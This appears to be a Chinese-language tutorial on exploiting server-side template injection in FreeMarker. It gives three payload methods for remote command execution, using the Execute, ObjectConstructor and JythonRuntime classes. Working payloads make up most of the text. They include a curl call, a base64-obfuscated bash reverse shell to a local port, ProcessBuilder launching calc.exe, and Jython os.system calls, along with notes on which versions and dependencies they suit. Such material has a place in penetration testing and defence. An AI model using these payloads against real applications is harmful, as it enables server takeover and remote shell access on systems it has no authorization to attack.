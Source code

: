 freemarker.template.utility里面有个Execute类，如下图所示，这个类会执行它的参数，因此我们可以利用new函数新建一个Execute类，传输我们要执行的命令作为参数，从而构造远程命令执行漏洞。

构造payload:

```java
<#assign value="freemarker.template.utility.Execute"?new()>${value("curl http://127.0.0.1:8080")}
```

另一种方式，不使用标签，直接使用字符串并入到变量中。(当)

```java
${"freemarker.template.utility.Execute"?new()("bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEyNy4wLjAuMS84ODg4IDA+JjEg}|{base64,-d}|{bash,-i}")}
```



**构造Payload方法二(适用于中高版本，如2.3.17、2.3.30)**

freemarker.template.utility里面有个ObjectConstructor类，如下图所示，这个类会把它的参数作为名称，构造了一个实例化对象。因此我们可以构造一个可执行命令的对象，从而构造远程命令执行漏洞。

 构造payload:

```java
<#assign value="freemarker.template.utility.ObjectConstructor"?new()>${value("java.lang.ProcessBuilder","calc.exe").start()}
```

```java
${"freemarker.template.utility.ObjectConstructor"?new()("java.lang.ProcessBuilder","calc.exe").start()}
```



**构造Payload方法三(在引入jython-standalone依赖的情况下，适用于各种版本，如2.3.9、2.3.17、2.3.30)**

freemarker.template.utility里面的JythonRuntime，可以通过自定义标签的方式，执行Python命令，从而构造远程命令执行漏洞。

 构造payload（不能使用${}变量写法）:

```java
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc.exe")</@value>
```

实测当pom拉取的依赖不对时，jython导入不了os库，推测和winodws环境变量之类的有关。这种情况下jython实际可用的库似乎只有sys。：

```java
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import sys;print sys.version;print sys.version_info;</@value>
```

错误的引入如下，为非独立版本，在burp插件中使用的jython也必须为standalone。

```xml
<dependency>
    <groupId>org.python</groupId>
    <artifactId>jython</artifactId>
    <version>2.7.2</version>
</dependency>
```

